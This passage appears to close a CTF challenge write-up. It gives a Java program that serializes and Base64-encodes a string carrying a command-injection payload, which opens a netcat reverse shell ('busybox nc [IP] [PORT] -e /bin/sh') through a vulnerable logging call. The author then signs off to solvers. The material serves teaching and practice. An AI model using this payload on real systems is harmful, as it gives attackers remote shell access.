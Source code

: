 ``` java

package com.example.ctfapi.api.model;

import java.io.*;
import java.util.Base64;

public class Main {
    public static void main(String[] args) throws Exception {
        String message = "pwned\" && busybox nc [IP] [PORT]  -e /bin/sh && echo \"pwned";

        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream out = new ObjectOutputStream(bos);
        out.writeObject(message);
        out.close();

        String base64 = Base64.getEncoder().encodeToString(bos.toByteArray());
        System.out.println(base64);
    }
}

```

that works bc of this line here :
``` java

logService.log("deserialized object " + object.toString() + " at " + LocalDateTime.now());

```
credit: phreakace b thon


# finally

i am happy that all my challenges are solved and i hope you enjoyed them.
also i hope i made you learn something new.
